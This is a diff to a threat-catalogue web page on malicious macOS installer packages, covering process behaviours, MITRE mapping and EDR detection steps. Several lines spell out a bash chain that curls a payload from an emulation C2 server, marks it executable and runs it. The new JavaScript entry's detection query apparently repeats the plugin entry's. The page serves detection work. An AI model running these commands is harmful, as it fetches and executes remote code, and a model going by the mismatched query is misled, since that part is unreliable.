

Before and after one commit to iThreatopedia/iThreatopedia.github.io, a Jekyll site: the page built from _iThreatopedia/macOS/installers.md, in a window 1280 px wide and 1400 px high, scrolled down 2795 px. Shown: the whole window, without its empty margins (211-1069 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3486 px from its top, so only the background shows below that.

Commit message:
improving some os behaviors

```diff
--- a/_iThreatopedia/macOS/installers.md
+++ b/_iThreatopedia/macOS/installers.md
@@ -68,7 +68,8 @@ Commands:
       - Step: Installer prompts the user with subject "This package will run a program to determine if the software can be installed".
       - Step: xpcproxy magic happens, and launchd executes InstallerRemotePluginService-x86_64 as user.
       - Step: InstallerRemotePluginService-x86_64 then launches the script interpreter as a user. In our case this will be bash (since this is how iShelly implements this vector). The cmdline is <pre><code>/bin/bash -c /usr/bin/curl -k 'http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload' -o /Users/$USER/Library/Application\\ Support/operator-payload; chmod +x /Users/$USER/Library/Application\\ Support/operator-payload; /Users/$USER/Library/Application\\ Support/operator-payload -name installer-plugin & </pre></code>
-      - Step: as a result of the above bash one liner, bash executes the following children processes- curl, chmod, operator-payload.
+      - Step: as a result of the above bash one liner, bash executes the following children processes- curl, chmod. curl makes a network connection to Operator and writes payload to /Users/$USER/Library/Application\ Support/operator-payload. chmod makes the payload executable.
+      - Step: The same bash process executes operator-payload.
       - Step: operator-payload makes a network connection to operator.
     Execute:
       - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Installer Package w/ Installer Plugin" Installer Package option.
@@ -77,4 +78,25 @@ Commands:
     Respond:
       - Step: Review the children of process InstallerRemotePluginService.
       - Step: Review process creations, network connections and file writes of all children processes of InstallerRemotePluginService.
+
+  - Name: Installer Package w/ JavaScript Functionality embedded
+    Description: This query detects installer packages leveraging JavaScript functionality via distribution.xml files.
+    Usecase: Adversaries may pair this technique with a social engineering component to execute malware. Adversaries may use this technique to generate less known EDR behavioral patterns or when they need malware running as user.
+    Category: Execution
+    Privileges: User
+    MitreID: T1204.002
+    Behaviors:
+      - Step: When executing the pkg file generated via <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a>, launchd runs Installer as user.
+      - Step: Installer prompts the user with subject "This package will run a program to determine if the software can be installed".
+      - Step: Installer launches bash process with cmdline <pre><code>/bin/bash -c /usr/bin/curl -k 'http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload' -o /Users/$USER/Library/Application\\ Support/operator-payload </pre></code>
+      - Step: bash launches curl which makes a network connection to Operator and writes payload to /Users/anadrowski/Library/Application Support/operator-payload.
+      - Step: The same Installer process launches a new bash process with cmdline <pre><code>/bin/bash -c chmod +x /Users/$USER/Library/Application\\ Support/operator-payload </pre></code> to make the payload executable.
+      - Step: The same Installer process launches a new bash process with cmdline <pre><code>/bin/bash -c /Users/$USER/Library/Application\\ Support/operator-payload -name installer-js-embedded & </pre></code> to execute the payload.
+    Execute:
+      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Installer Package w/ Installer Plugin" Installer Package option.
+    Detect:
+      - EDR: process_name = "InstallerRemotePluginService-x86_64"
+    Respond:
+      - Step: Review the children of process InstallerRemotePluginService.
+      - Step: Review process creations, network connections and file writes of all children processes of InstallerRemotePluginService.
 ---
```
